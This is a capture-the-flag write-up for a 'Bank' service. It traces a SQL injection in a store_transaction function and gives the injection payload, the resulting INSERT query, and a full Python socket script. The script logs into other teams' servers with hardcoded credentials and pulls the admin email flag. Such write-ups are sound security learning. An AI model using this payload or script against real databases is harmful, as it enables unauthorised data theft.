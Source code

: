 Bank writeup
===========
### Vulnerability
There is a SQL injection vulnerability in bank system. \
The vulnerability originates from functions in `db/utils.py`: `get_account_num`,`get_balance`, and `store_transaction`. \
These functions can be spotted by diffing the source codes.

The first two functions seem hard to be exploited because the arguments are user IDs,and this leaves us one and only readily-feasible vulnerable function, `store_transaction`.

### Payload
The attack strategy is to insert the flag which resides in the email field of admin into transfer message so that we can check the flag in transaction history.
Therefore, we put the following payload in the transfer message:

```
',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1
```
which results in the following complete SQL query:
```sql
INSERT INTO `tran_table`(`from_account`, `to_account`, `remit`, `msg`,
    `from_balance`, `to_balance`)
VALUES(%s, %s, %s, concat ('[Transfer] ', '',(SELECT email FROM user_table
            LIMIT 1)),0,0),(1,1,1,('1'), %s, %s)
```

### Full Exploit Code
The following exploit code exploits all other teams' bank servers.
```python
# '^[A-za-z0-9\.\,_\(\)\' ]{,100}$'
import socket
import re

def recvuntil(s, data):
        p = ''
        while not p.endswith(data):
                p += s.recv(1)
        print p
        return p

ips = [None, None, "10.0.102.101", "10.0.103.101", "10.0.104.101", "10.0.105.101", "10.0.106.101"]
id_list = [None, None, "jmpark81", "jmpark81", "jjjkkk1", "jjjkim1", "jjjkkk1"]
pw_list = [None, None, "test1234", "test1234", "jjpass1", "jjpass1", "jjpass1"]

def attack(teamN):
        s = socket.socket(2, 1)
        s.connect((ips[teamN], 1588))
        recvuntil(s, "-> ")
        s.send("1\n")
        recvuntil(s, "Username -> ")
        s.send(id_list[teamN] + "\n") ##### ID
        recvuntil(s, "Password -> ")
        s.send(pw_list[teamN] + "\n") ##### PW
        recvuntil(s, "What would you like to do? -> ")
        s.send("3\n")

        recvuntil(s, "Receiver (user ID) -> ")
        s.send("admin\n")
        recvuntil(s, "Amount to transfer -> ")
        s.send("1\n")
        recvuntil(s, "Transfer message -> ")
        t = """',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1"""
        s.send(t+'\n')
        recvuntil(s, "Would you like to transfer? (Y/N) -> ")
        s.send("Y"+'\n')
        recvuntil(s, "Enter any key to return to the previous menu -> ")
        s.send('\n')

        recvuntil(s, "What would you like to do? -> ")
        s.send("2\n")
        flag = re.findall("\[Transfer\] (.{32})", recvuntil(s, "Enter any key to return to the previous menu -> "))[0]
        with open("flag_bank_team%d" % teamN, "wt") as f: f.write(flag)
        s.close()

for i in range(2,7):
        attack(i)
```
